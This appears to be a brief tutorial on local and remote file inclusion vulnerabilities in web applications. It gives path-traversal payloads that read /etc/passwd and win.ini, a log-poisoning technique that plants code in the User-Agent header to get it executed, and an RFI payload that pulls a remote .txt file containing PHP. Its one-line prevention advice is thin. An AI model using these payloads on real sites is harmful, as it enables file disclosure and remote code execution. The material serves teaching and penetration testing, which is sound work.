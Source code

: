 File Inclusion:
===
File inclusion is a web security vulnerability 
in which user supplied data is include in include() without sanitization on the web application.

File inclusion is classified as two types:

1.LFI(Local file inclusion)

2.RFI(Remote File Inclusion)

<h3>LFI</h3>

Local File Inclusion (LFI) allows an attacker to include local files on a server through the web browser. 
This vulnerability exists when a web application includes a file without correctly sanitising the input, 
allowing and attacker to manipulate the input and inject path traversal characters and include other files from the web server.
it is done via relative or full path we have to check which is accesible.

<h3>Identification & EXPLOITATION</h3>

LFI vulnerabilities are easy to identify and exploit. Any script that includes a file from a web server is a good candidate for further LFI testing, 
For example:

               /script.php?page=/windows/win.ini
     
Internally we check log file in "/xampp/apache/logs/access.log "
we will find the user contrallable data in the present activity,then paste the code in user contralable field such as "USER AGENT:"
in the last paste the path of access.log in web browser and in result the code will be executed.

<h3>In linux</h3>
A penetration tester would attempt to exploit this vulnerability by manipulating the file location parameter, 
such as:

           /script.php?page=../../../../../../../../etc/passwd

The above is an effort to display the contents of the /etc/passwd file on a UNIX / Linux based system.

RFI
===
A remote file inclusion (RFI) occurs when a file from a remote web server is inserted into a web page. 
This can be done on purpose to display content from a remote web application.In this we will only used full path. 

<h3>Identification & Exploitation</h3>

1.Go to your target website and find any parameter that loads the content of any remote websites
for eg. url, page, file etc. (Use Spider option of burp for finding parameters)

2.suppose we find vulnerbaility in "page" parameter

For example:

     /script.php?page=http://www.webhosted.com/b0x.txt 


Note:- If we find any problem or application not allow to fetch data then we will ecxploit it in burp suite
and can fetch the data from the remote URL.

if we are appending php code in the b0x file then we have to save it as .txt file on the internet based server.
This is how we can exploit RFI.

prevention:

1.url encodig in relative path


THANKS
ROHIT TANWAR






